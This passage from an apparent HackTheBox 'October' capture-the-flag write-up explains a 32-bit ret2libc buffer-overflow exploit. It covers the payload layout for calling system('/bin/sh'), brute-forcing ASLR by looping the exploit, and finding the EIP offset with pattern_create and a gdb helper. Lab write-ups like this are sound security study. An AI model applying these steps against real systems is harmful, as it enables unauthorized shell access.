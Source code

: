 ```bash
<Junk Byte> * 112 (Offset)
<Address of system()> (new EIP)
<Address of exit()> (new return address)
<Address of /bin/sh string> (Argument for system())
```

Which should launch `system(/bin/sh)`.


But because ASLR is enabled, the memory address space of the binary is different each time it executes. So we can't reliably predict the correct memory addresses of said gadgets, thus making it more difficult to develop an exploit. This however, can be somewhat circumvented againts 32-bit binaries. 


Since memory addresses are sammler on a 32-bit binary, it's possible to use one base `libc` address, and calculate all gadgets addresses againts this base `libc` address as if ASLR was disabled. Then, we can execute our exploit in an endless loop, until eventually the `libc` address in the program's runtime will match with our exploit, thus all other gadgets addresses match as well, and we will get a shell.


This approach on a 32-bit binary is plausible, as the memory address space layout is small enough for a brute force attack of this sorts to pay out after a reasonable amount of iterations. Compared to a 64-bit binary, where memory address layout is much larger, thus rendering this sorts of attack counterintuitive.


Let's start by finding the offset to the EIP, for which I use pattern_create. I create an alias for it, and run it as such:

```bash
alias pattern_create=/usr/share/metasploit-framework/tools/exploit/pattern_create.rb
pattern_create -l 125
```

From here, I stat `gdb` on the binary and define the following function:

```gdb
(gdb) define asciiprint
 set $len = sizeof($arg0)
 set $val = (unsigned long long)($arg0)
 while $len-- > 0
   set $char = $val & 0xff
   if $char >= 0x20 && $char <= 0x7e
     printf "%c", $char
   else
     printf "\\x%02x", $char
   end
   set $val >>= 8
 end
 printf "\n"
end
```

Then, I copy the output pattern from pattern_create, and run the binary supplying the pattern I copied:

![eip-23](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/October/img/crashed-eip-23.png)